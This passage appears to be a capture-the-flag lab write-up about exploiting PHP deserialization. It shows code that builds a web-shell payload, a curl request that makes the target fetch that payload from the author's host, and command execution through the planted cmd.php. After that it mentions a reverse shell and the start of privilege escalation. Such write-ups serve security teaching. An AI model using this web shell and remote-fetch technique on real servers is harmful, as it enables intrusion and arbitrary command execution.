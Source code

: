 ```php
<?php
class file 
{

	public $file = 'cmd.php';
	public $data = '<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>';
}

$serial = serialize(new file);
print $serial;
print("\n");
?>
```

I saved that code and executed on my local machine to get the serialized object. 

```bash
$ php serialize.php
O:4:"file":2:{s:4:"file";s:7:"cmd.php";s:4:"data";s:113:"<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>";}
```

I got the string. Now I can use this string for the PHP deserialization attack. Also, keep in mind that the `file_get_contents` function can read remote files. So I can host that string on my server and read it from there.

```bash
curl http://10.10.186.176/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/?file=http://10.9.3.149/a.txt
```

I successfully wrote the file. Now I can execute commands on the server.

```bash
curl http://10.10.186.176/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/cmd.php?cmd=whoami

<pre>www-data
</pre>
```

Works! After I quickly got a reverse shell and read the user flag in the home directory.

```bash
www-data@ubuntu:/home/grecia$ ls
user.txt
www-data@ubuntu:/home/grecia$ cat user.txt
XXXXXXXXXXXXXXXXXXXXXXXX
```

## Privilege Escalation

I downloaded the `linpeas.sh` script and ran it on the server. Found that the `www-data` user can run `sudo` without a password.
